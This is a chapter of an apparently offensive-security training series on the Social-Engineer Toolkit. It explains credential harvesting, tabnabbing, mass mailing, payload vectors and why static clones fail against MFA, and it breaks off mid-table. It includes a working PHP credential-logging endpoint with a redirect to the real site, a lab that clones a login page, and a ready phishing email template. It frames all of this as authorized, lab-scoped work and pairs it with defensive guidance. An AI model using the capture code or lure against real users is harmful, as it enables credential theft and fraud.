







This is Chapter 5 of the Social Engineering series. Chapter 3 built the phishing pipeline end to end — pretext, infrastructure, delivery, and credential capture — and Chapter 4 explained the email-authentication engine (SPF/DKIM/DMARC) that decides whether your mail ever reaches an inbox. This chapter zooms into the single most widely used piece of tooling in that pipeline: the **Social-Engineer Toolkit (SET)**, written by Dave Kennedy (@HackingDave) and maintained under TrustedSec. SET is the open-source framework that turned "clone a login page and capture passwords" from a bespoke scripting job into a menu you drive in ninety seconds — and, precisely because it is so easy, it is a tool you must understand deeply to use professionally and to defend against.

SET is a **credential-harvesting and payload-delivery multitool**. Its headline feature — the Credential Harvester — clones a real login page, serves the clone from your own web server, records every username and password a victim types, and transparently forwards them to the real site so the victim notices nothing. Around that core it wraps spear-phishing email generation, malicious-file and payload creation (via Metasploit's `msfvenom`), infectious-media generators, a mass mailer, QR-code and wireless access-point attack vectors, and more. This chapter teaches SET from zero — installation, architecture, every menu path that matters — then confronts the uncomfortable truth an experienced operator already knows: a static credential harvester captures a password but **not** a second factor, so against any target with MFA it fails at the login step. That limitation is exactly why Chapter 3 introduced AiTM reverse proxies like evilginx2, and this chapter draws the precise boundary between the two.

> **Ethics and scope first.** SET exists for **authorized** red-team engagements, sanctioned phishing simulations, and defensive research. Cloning a real company's login page to capture real users' credentials without written authorization is fraud and unauthorized access in essentially every jurisdiction — U.S. wire-fraud statutes and the CFAA, the UK Computer Misuse Act and Fraud Act, and GDPR for any personal data you harvest. Every technique below assumes a signed scope, a defined target list, a rules-of-engagement (RoE) document, throwaway attacker-owned domains, and a plan to securely destroy captured data after reporting. Build the labs against **your own** VMs and accounts. Nothing here is a turnkey weapon aimed at anyone you are not contracted to test.

---

## Why This Matters

Verizon's Data Breach Investigations Report has for years put the human element — phishing, pretexting, stolen credentials — at or near the top of confirmed-breach root causes, and stolen credentials are consistently the single most common way attackers get in. The Credential Harvester pattern SET automates is the mechanical heart of that statistic: a cloned page, a plausible link, a moment of inattention, and an attacker holds a valid username and password.

For a red teamer, SET is worth mastering for three reasons. First, it is **fast** — during a time-boxed engagement you can stand up a convincing capture page in the time it takes to brief the client. Second, it is **instructive** — reading how SET clones a page, rewrites its form actions, and proxies the POST teaches you exactly what a credential-phishing attack *is* at the HTTP level, which you can then reproduce by hand or harden against. Third, it is **a defender's training set** — every artifact SET produces (a cloned page on a look-alike domain, a `POST` to an attacker host, a specific set of `User-Agent` and header quirks) is something a blue team must be able to detect. Understanding SET therefore serves offense and defense equally, and this chapter is written for both chairs.

---

## Part 1: What SET Is — History, Design Philosophy, and Where It Fits

The Social-Engineer Toolkit first appeared in 2009 as a Python framework whose explicit thesis was that **people, not software, are the easiest thing to exploit**. Rather than chase memory-corruption exploits, SET automates the delivery mechanics of human-targeted attacks so an operator can focus on the pretext. It is bundled with Kali Linux and Parrot OS, ships in the Rapid7/Metasploit ecosystem's orbit (it calls `msfvenom` and can hand sessions to `msfconsole`), and is developed at [github.com/trustedsec/social-engineer-toolkit](https://github.com/trustedsec/social-engineer-toolkit).

SET is best understood as a **menu-driven orchestrator** over a set of well-known primitives:

- A **web server** (Python's built-in HTTP server, or an integration with Apache) that hosts cloned or templated pages.
- A **page cloner** that fetches a target page and rewrites it so form submissions come to you.
- A **credential logger** that records `POST` bodies to a harvest file and, optionally, transparently redirects the victim to the genuine site afterward.
- A **payload generator** front-end to `msfvenom` for malicious executables, HTAs, PowerShell one-liners, and infectious media.
- An **email engine** (mass mailer / spear-phish) that sends the lure.

Where SET fits in the wider methodology from earlier chapters:



The decision node in that diagram is the single most important strategic point in the chapter. SET's Credential Harvester is a **static** capture: it records what the victim types. If the account requires a one-time code or a push approval, the captured password alone does not grant access — you would also need to relay the second factor in real time, which a static clone cannot do. Know which tool the engagement calls for *before* you build infrastructure.

**Red team usage:** SET is your rapid-prototyping tool for credential capture and for payload staging in awareness-training simulations. **Blue team usage:** SET's default artifacts are well documented, which makes it an excellent basis for writing detections and for building realistic purple-team exercises.

---

## Part 2: Installing and Launching SET From Scratch (Tool Primer)

SET ships preinstalled on Kali Linux, but you should know how to install, update, and launch it cleanly, and how to read its first-run behavior.

### 2.1 Confirm or install on Kali

```bash
# Check whether SET is already present (it is on a stock Kali)
which setoolkit
# /usr/bin/setoolkit

# If missing, install from the Kali repo
sudo apt update
sudo apt install -y set

# Or install the latest upstream directly from TrustedSec
sudo git clone https://github.com/trustedsec/social-engineer-toolkit.git /opt/set
cd /opt/set
sudo pip3 install -r requirements.txt
sudo python3 setup.py install
```

Flag/command notes:

- `apt update` refreshes the package index so `apt install` sees current versions; without it you may install a stale build.
- `-y` auto-confirms the install prompt (useful in scripts; omit it if you want to review the dependency list).
- `git clone <repo> /opt/set` places the source in `/opt/set`; `/opt` is the FHS location for optional/add-on software (see the Linux filesystem chapter).
- `pip3 install -r requirements.txt` installs SET's Python dependencies from the pinned list; `-r` means "read requirements from this file."
- `python3 setup.py install` runs the packaging script to install SET system-wide.

### 2.2 Launch and the first-run consent prompt

```bash
sudo setoolkit
```

SET must be run as root because it binds low ports (80/443) for its web server and may write to system paths. On first launch it prints the license and a **terms-of-service acceptance** prompt — you type `y` to confirm you will use it lawfully. Read it; it is not decoration, it is the legal framing that the rest of this chapter takes seriously.

The main menu appears:

```
 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set>
```

**Do not** use option `4` to update SET while it is bundled by Kali; update via `apt` or `git pull` in `/opt/set` instead, so you do not fork the packaged install. Option `5` opens the config file discussed in Part 12.

### 2.3 Where SET keeps things

| Path | Purpose |
|------|---------|
| `/etc/setoolkit/set.config` | Main configuration (web server choice, ports, capture behavior) |
| `/usr/share/setoolkit/` (or `/opt/set`) | Program files, templates, modules |
| `~/.set/` | Runtime working dir: cloned site, `harvester_*.txt` capture logs, reports |
| `~/.set/reports/` | Generated report files (XML/HTML) for some vectors |

The single most important operational file is the harvester log in `~/.set/`, named like `harvester_2027-01-21 06:14:02.txt`, into which captured credentials are written line by line. Know where it is so you can secure and later destroy it per your RoE.

---

## Part 3: The Attack-Vectors Menu Map

Under `1) Social-Engineering Attacks`, SET exposes the vectors you will actually use. Memorizing this map saves time under the clock of an engagement.

```
 1) Spear-Phishing Attack Vectors
 2) Website Attack Vectors
 3) Infectious Media Generator
 4) Create a Payload and Listener
 5) Mass Mailer Attack
 6) Arduino-Based Attack Vector
 7) Wireless Access Point Attack Vector
 8) QRCode Generator Attack Vector
 9) Powershell Attack Vectors
10) Third Party Modules
```

The two you will spend most of your time in are **`2) Website Attack Vectors`** (which contains the Credential Harvester) and **`1) Spear-Phishing Attack Vectors`** (which sends the lure). Drilling into `2) Website Attack Vectors`:

```
 1) Java Applet Attack Method
 2) Metasploit Browser Exploit Method
 3) Credential Harvester Attack Method
 4) Tabnabbing Attack Method
 5) Web Jacking Attack Method
 6) Multi-Attack Web Method
 7) HTA Attack Method
```

And within `3) Credential Harvester Attack Method` you choose how the capture page is built:

```
 1) Web Templates
 2) Site Cloner
 3) Custom Import
```

This three-level path — `1 → 2 → 3 → {1,2,3}` — is the muscle memory of SET. The next parts dissect the Credential Harvester options one by one.



---

## Part 4: The Credential Harvester — How It Actually Works

Before running it, understand the mechanism at the HTTP level, because that is what you must reproduce by hand and what a defender detects.

When you point the Credential Harvester at a login page, SET performs these steps:

1. **Fetch** the target page's HTML (and often referenced assets) with an HTTP client.
2. **Rewrite the form** so its `action` attribute points at SET's own server (typically `/` or a capture endpoint) and the method stays `POST`.
3. **Serve** the modified page from SET's web server on the interface/IP you choose.
4. When a victim submits, SET **logs the full POST body** (every field, including `username` and `password`) to the harvester file with a timestamp and the victim's source IP.
5. SET then **redirects** the victim's browser to the *real* login URL (an HTTP 302), so the victim sees the genuine site — often assuming they mistyped — and rarely suspects capture.

The sequence, end to end:



Two consequences follow directly from this design:

- **You capture the plaintext the victim typed.** That is the password (and any other typed field), not a hash — the victim's browser has not yet hashed or exchanged anything.
- **You do not capture a session.** Because SET redirects the victim to the *real* site rather than completing authentication, you never hold the victim's authenticated cookie. You must replay the captured credentials yourself, and if MFA gates that login, plaintext password ≠ access. This is the structural ceiling of the tool.

**Pentester note:** the harvested password is often reused elsewhere (VPN, mail, an internal portal without MFA), which is why credential capture remains valuable even against MFA-protected primary targets — you pivot to a weaker system. **Blue team note:** the tell-tale artifact is a genuine-looking login page whose form `POST`s to a *different host* than the brand it imitates; TLS inspection and DOM-diffing detections key on exactly that.

### 4.1 Reproducing the harvester by hand (demystifying SET)

SET is not magic — it is a form rewrite plus a logging endpoint. Understanding the by-hand equivalent makes you a better operator (you can build a bespoke capture page when the auto-cloner fails) and a better defender (you know exactly what artifact to hunt for). The whole capture side is a few lines of any web language. In PHP:

```php
<?php
// capture.php — the entire "harvester" logging endpoint, minus SET's menus.
// LAB USE ONLY, against your own test accounts.
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $line = sprintf("[%s] ip=%s %s\n",
        date('c'),
        $_SERVER['REMOTE_ADDR'],
        http_build_query($_POST));           // every submitted field, incl. password
    file_put_contents('/tmp/harvest.log', $line, FILE_APPEND | LOCK_EX);
    header('Location: https://login.example-corp.test/', true, 302); // send victim to real site
    exit;
}
?>
```

The matching front-end is nothing more than a saved copy of the real login page with one attribute changed — the form's `action` now points at `capture.php` instead of the genuine endpoint:

```html
<!-- Only the form action differs from the real page -->
<form method="POST" action="/capture.php">
  <input name="username">
  <input name="password" type="password">
  <button type="submit">Sign in</button>
</form>
```

That is the *entire* concept. SET automates the "save the page and flip the action" step (Site Cloner), the logging (the harvester file), and the 302. Everything else in this chapter is delivery, fidelity, and the strategic question of whether a static capture is even sufficient against the target's authentication.

**CTF angle:** boot-to-root and red-team CTF boxes (HackTheBox, TryHackMe) frequently gate a foothold behind exactly this pattern — you find a phishing/credential-harvest foothold, capture a reused password from a simulated user, and reuse it against SSH or an admin panel. Recognising the "form action points off-host" tell in a challenge's web tier is a common first step.

---

## Part 5: Credential Harvester Sub-Methods — Templates, Cloner, Custom Import

### 5.1 Web Templates

`1) Web Templates` uses SET's bundled, pre-built clones of common providers (historically Google, Yahoo, Twitter, and a generic template). You pick a template, SET hosts it, done. Templates are:

- **Fast** and dependency-free (no live fetch needed).
- **Stale** — bundled templates drift from the real, frequently-redesigned login pages, so they look dated and are easy for an alert user or a defender to flag.

Use templates only for quick internal demos or when the real page is unreachable from your position. For anything client-facing, clone the live page.

### 5.2 Site Cloner (the workhorse)

`2) Site Cloner` fetches the **live** target login page at run time and rewrites it. This yields a pixel-current clone that matches whatever the real site currently looks like. The prompts you will answer:

```
set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.56.10]:
set:webattack> Enter the url to clone: https://login.example-corp.test/
```

- The **POST-back IP** is the address the victim's form submission returns to — it must be an IP/host the victim can reach (in a lab, your Kali box's LAN IP; in an engagement, your redirector/VPS).
- The **URL to clone** is the live login page. SET fetches it, rewrites the form, and starts serving.

Cloning caveats an operator must know:

- **JavaScript-heavy SPAs** (React/Angular login flows that build the form client-side or submit via `fetch`/XHR to an API) often **do not** clone cleanly — SET's rewrite targets classic HTML `<form>` submits. Modern IdP logins (Microsoft Entra, Okta) fall into this category and are a key reason cloning alone is weaker now than a decade ago.
- **Absolute asset URLs** may still load from the real site (fine for fidelity) or be blocked by the real site's CORS/referrer rules (broken styling).
- **CSP and framing** on the real page don't apply to your clone (you serve your own headers), but subresource integrity (SRI) tags can break assets you rehost.

### 5.3 Custom Import

`3) Custom Import` serves a page **you** supply from a local directory. Use it when you have hand-crafted a high-fidelity clone (e.g., saved and cleaned the page manually, or built one that mirrors an SPA login's final rendered DOM) that SET's auto-cloner mangles. This is the professional path for tricky targets: you control the HTML exactly, and SET just hosts it and logs the POST.

| Sub-method | Fidelity | Speed | Best for |
|------------|----------|-------|----------|
| Web Templates | Low (stale) | Fastest | Quick internal demo, no internet |
| Site Cloner | High (live) | Fast | Classic HTML login pages |
| Custom Import | Highest (hand-built) | Slow setup | SPA/IdP logins, bespoke pretexts |

---

## Part 6: Hands-On Lab A — Clone a Login Portal and Capture Credentials

This lab is fully self-contained. You will host a deliberately-vulnerable login page on one VM, clone it with SET on your Kali VM, "phish" yourself from a third browser, and read the captured credentials. **Everything is attacker-owned; capture only your own test account.**

### 6.1 Lab topology



Set all three VMs on a host-only network (`192.168.56.0/24` in the example). No internet is required, which keeps the lab lawful and contained.

### 6.2 Stand up a target login page

On the target VM (`192.168.56.20`), serve a simple login form so you have a lawful page to clone:

```bash
# On the TARGET vm
mkdir -p /var/www/portal && cd /var/www/portal
cat > index.html <<'HTML'
<!doctype html><html><head><title>Example-Corp Portal</title></head>
<body style="font-family:sans-serif;max-width:360px;margin:80px auto">
  <h2>Example-Corp Single Sign-On</h2>
  <form method="POST" action="/login">
    <label>Username</label><br><input name="username"><br><br>
    <label>Password</label><br><input name="password" type="password"><br><br>
    <button type="submit">Sign in</button>
  </form>
</body></html>
HTML
python3 -m http.server 80
```

- `python3 -m http.server 80` runs Python's built-in web server on port 80 serving the current directory. `-m http.server` invokes the module; the trailing `80` is the port. Run as root or use `sudo` to bind port 80.

Browse to `http://192.168.56.20/` from the victim VM to confirm the real page renders.

### 6.3 Clone it with SET

On Kali (`192.168.56.10`):

```bash
sudo setoolkit
# 1) Social-Engineering Attacks
# 2) Website Attack Vectors
# 3) Credential Harvester Attack Method
# 2) Site Cloner
```

Answer the prompts:

```
set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.56.10]: 192.168.56.10
set:webattack> Enter the url to clone: http://192.168.56.20/
[*] Cloning the website: http://192.168.56.20/
[*] This could take a little while...
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```

SET is now serving a clone of the portal on `http://192.168.56.10/`.

### 6.4 "Phish" yourself and read the capture

From the victim VM, browse to the attacker clone `http://192.168.56.10/`, enter a **test** credential, and submit:

```
Username: testuser
Password: Lab!Pass2027
```

In the SET terminal you will see the capture arrive live:

```
192.168.56.30 - - [21/Jan/2027 06:14:02] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: username=testuser
POSSIBLE PASSWORD FIELD FOUND: password=Lab!Pass2027
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
192.168.56.30 - - [21/Jan/2027 06:14:02] "POST / HTTP/1.1" 302 -
```

The victim's browser is 302-redirected to the real page. Press `Ctrl-C` in SET to finalize the report, then read the persisted log:

```bash
ls -1 ~/.set/
# harvester_2027-01-21 06:14:02.txt
# reports/
cat "$(ls -t ~/.set/harvester_* | head -1)"
```

```
Array
(
    [username] => testuser
    [password] => Lab!Pass2027
)
```

You have reproduced the entire credential-harvesting primitive against your own infrastructure. **Clean up:** stop the target server, stop SET, and `shred -u ~/.set/harvester_*.txt` when finished, mirroring the data-destruction step you must perform after a real engagement.

### 6.5 What you just proved

- The mechanism is exactly the sequence diagram in Part 4 — a rewritten form, a logged POST, a 302 to the real site.
- You captured **plaintext** because the victim's browser submitted plaintext to your server.
- You did **not** obtain a session — you must now log in yourself with `testuser:Lab!Pass2027`, and if the real portal required MFA, you'd be stuck at the code prompt.

---

## Part 7: Web Jacking and Tabnabbing Attack Methods

SET offers two variations on the harvester that change *how the victim arrives* at the fake page.

### 7.1 Web Jacking

The **Web Jacking** method (`5` under Website Attack Vectors) serves a page that displays a message like *"The site has moved, click here to continue"* with a link that appears to point at the real site but actually loads the cloned page (often after a short delay, and historically using an iframe/`window.location` trick). It exploits the fact that users glance at link text, not the address bar. In modern browsers with prominent URL display and HTTPS indicators, web jacking is far less convincing than it was in 2010, but it remains a useful teaching artifact for awareness training: show users how link text lies.

### 7.2 Tabnabbing

**Tabnabbing** (`4`) exploits inattention across browser tabs. The attack page, once it loses focus (the user switches to another tab), silently rewrites itself to look like a login page for a service the user trusts (e.g., a webmail login). When the user returns to the tab later, they see what looks like a session that "timed out," and re-enter credentials — which are captured. The classic enabler was `window.opener` access from a link opened with `target="_blank"` without `rel="noopener"`.

**Blue team / defensive note:** modern browsers set `rel="noopener"` behavior by default for `target="_blank"` links, and reputable sites add `rel="noopener noreferrer"` explicitly, which neuters the original `window.opener` tabnabbing vector. Detection-wise, both web jacking and tabnabbing still end in a credential `POST` to an attacker host — so the Part 4 detection logic (form action host ≠ brand host) catches them regardless of the arrival trick.

| Method | Arrival trick | Modern effectiveness | Primary browser mitigation |
|--------|---------------|----------------------|----------------------------|
| Credential Harvester | Direct link to clone | Moderate (depends on domain) | HTTPS indicators, Safe Browsing |
| Web Jacking | "Site has moved" link swap | Low | Prominent URL bar, link preview |
| Tabnabbing | Background tab rewrite | Low | Default `noopener`, tab isolation |

---

## Part 8: Spear-Phishing and Mass Mailer — Delivering the Lure

A capture page is useless without traffic. SET's `1) Spear-Phishing Attack Vectors` and `5) Mass Mailer Attack` generate and send the email that drives victims to your harvester. This is where SET touches everything from Chapter 4 — the mail you send still has to pass SPF/DKIM/DMARC or land in quarantine.

### 8.1 Spear-Phishing menu

```
 1) Perform a Mass Email Attack
 2) Create a FileFormat Payload
 3) Create a Social-Engineering Template
```

`2) Create a FileFormat Payload` builds a malicious document (via `msfvenom`/Metasploit's file-format exploits) to attach — this is payload delivery, not credential capture, and is kept **conceptual and lab-scoped** here per the ethics framing. For credential harvesting you typically don't attach a payload at all; you send a clean-looking email with a link to your cloned page, which is far less likely to trip attachment sandboxes.

### 8.2 Mass Mailer

`5) Mass Mailer Attack` supports:

- **E-Mail Attack Single Email Address** — one recipient (spear-phish).
- **E-Mail Attack Mass Mailer** — a list of recipients from a file.

It prompts for the from-address, subject, body (HTML or plain), and an SMTP relay (your own mail server, or an authenticated relay you control). **This is exactly where Chapter 4 matters:** if your sending domain lacks aligned SPF/DKIM and a permissive-enough DMARC posture, a modern secure email gateway (SEG) quarantines the message and your harvester never sees a hit.



### 8.3 Creating a reusable social-engineering template

`3) Create a Social-Engineering Template` lets you save a subject/body pair for reuse. SET stores these under its `src/templates/` directory as simple two-line records:

```
# A SET email template (subject on the first line, body on the following lines)
SUBJECT=Action required: verify your Example-Corp account
BODY=Our records show your single sign-on session will expire. To avoid
BODY=interruption, please re-authenticate once at the portal link below.
BODY=This is an automated notice from IT Service Management.
```

Good template hygiene mirrors the pretext principles from Chapter 2: a plausible internal sender, a *specific* reason to act, a single clear call to action, and no spelling/grammar tells. Avoid urgency so aggressive it triggers suspicion (or the recipient's "report phish" reflex). Keep the link text and the real destination consistent enough to survive a hover — on a look-alike domain you control.

**Operator reality:** most mature red teams do **not** send bulk mail through SET's mailer in production. They send through purpose-built phishing platforms (GoPhish, covered in Chapter 3) with dedicated, warmed sending infrastructure, and use SET purely for the capture page or for quick internal tests. Treat SET's mailer as convenient-but-noisy; know it exists, prefer better plumbing for real campaigns.

---

## Part 9: Payload-Based Vectors — Infectious Media, PowerShell, HTA (Lab-Scoped)

SET can also deliver **code execution**, not just capture credentials. These vectors are kept conceptual and lab-scoped, consistent with the series' malware/evasion policy: understand them to defend, build them only against your own lab targets.

### 9.1 Infectious Media Generator

`3) Infectious Media Generator` prepares a USB/DVD payload — historically an `autorun.inf` plus a Metasploit payload — banking on someone plugging in a "found" drive. **Blue team:** disable AutoRun/AutoPlay via Group Policy (it has been off by default on modern Windows for years) and block untrusted removable media with device-control policy; this vector is largely dead on patched, hardened endpoints but persists in awareness tests (the "dropped USB in the parking lot" study).

### 9.2 PowerShell Attack Vectors

`9) Powershell Attack Vectors` generates PowerShell one-liners/payloads (e.g., an encoded reverse shell) intended to run on a Windows host. These are the kind of `powershell -enc <base64>` commands that endpoint detection keys on heavily.

**Blue team:** enable **PowerShell Script Block Logging** (Event ID 4104), **Module Logging**, and **transcription**; deploy **Constrained Language Mode** and AMSI so encoded/obfuscated payloads are surfaced to the AV engine at runtime. A `-enc` blob spawned by Office or a browser child process is a high-fidelity alert.

### 9.3 HTA Attack Method

`7) HTA Attack Method` (under Website Attack Vectors) serves an `.hta` (HTML Application) that runs via `mshta.exe` with local privileges once the user opens it. HTA abuse is a classic macro-less delivery trick.

**Blue team:** block or restrict `mshta.exe` (an application-control policy via WDAC/AppLocker is the durable fix), alert on `mshta.exe` spawning `powershell.exe`/`cmd.exe`, and strip `.hta` at the mail gateway.

| Vector | Delivery | Execution engine | Durable defense |
|--------|----------|------------------|-----------------|
| Infectious Media | USB/DVD | AutoRun / manual | Disable AutoRun, device control |
| PowerShell | Link/attachment | `powershell.exe` | Script-block logging, CLM, AMSI |
| HTA | Web/attachment | `mshta.exe` | Block `mshta`, WDAC/AppLocker |
| FileFormat payload | Email attachment | Office/reader exploit | Patch, sandbox attachments |

The through-line: every one of these ends in a child process on an endpoint, which is where EDR — not the mail gateway — is your last and best line of defense.

---

## Part 10: QR Code and Wireless Access-Point Vectors

Two smaller vectors round out the toolkit and map to modern trends.

### 10.1 QR Code Generator (`8`)

Generates a QR code encoding a URL — point it at your cloned harvester page. **"Quishing"** (QR phishing) has surged precisely because a QR code hides the destination URL and shifts the click to a phone, which often has weaker mail-security context and a tiny address bar. SET's generator is trivial, but the tactic is current: QR codes in emails, posters, and parking meters routinely bypass link-rewriting SEGs because the URL is an image, not a hyperlink.

**Blue team:** SEGs increasingly OCR/decode QR images in mail; user training should emphasize that a QR code is a link you can't read. Mobile device management (MDM) with a filtering DNS profile helps catch the destination.

### 10.2 Wireless Access Point (`7`)

Spins up a rogue access point (leveraging `hostapd`/`dnsmasq` under the hood) to funnel connecting clients through a captive-portal-style credential page. This overlaps heavily with the Evil-Twin material in the Wireless Pentesting notebook — SET simply provides a quick front-end. It requires a wireless adapter capable of AP mode and is inherently a physical/proximity attack.

**Blue team:** 802.1X/WPA-Enterprise with server-certificate validation defeats naive rogue APs; wireless intrusion detection (WIDS) flags duplicate SSIDs and deauth floods (see the Wireless notebook's detection section).

---

## Part 11: The Modern Reality — Why Static Harvesters Lose to MFA, and What Replaces Them

This is the strategic heart of the chapter and the point most tutorials skip.

A SET Credential Harvester captures the **password the victim typed**. Multi-factor authentication introduces a second secret the victim also produces at login time — a TOTP code, a push approval, a FIDO2 assertion. The harvester's design (log the POST, redirect to the real site) means:

- With **TOTP/SMS MFA**, you capture the password but not a *usable* second factor — a 30-second TOTP code you scrape is likely expired or single-use by the time you replay it, and you have no session cookie.
- With **push-based MFA**, there's nothing to type, so nothing to capture.
- With **FIDO2/WebAuthn (passkeys)**, the authentication is cryptographically bound to the *real* origin; a clone on a different domain cannot even elicit a usable assertion. This is why passkeys are the strongest practical anti-phishing control.

So what do operators use when the target has MFA? An **Adversary-in-the-Middle (AiTM) reverse proxy** — evilginx2, Muraena/Necrobrowser, or Modlishka — introduced in Chapter 3. Instead of a static clone, an AiTM proxy sits **inline** between the victim and the *real* site, relaying every request and response in real time. Because the victim talks to the genuine backend through the proxy, they complete MFA against the real service, and the proxy **steals the resulting session cookie** — bypassing the second factor entirely because the factor was satisfied legitimately, just in the attacker's presence.



The decision rule for an engagement:

| Target auth | Right tool | Why |
|-------------|-----------|-----|
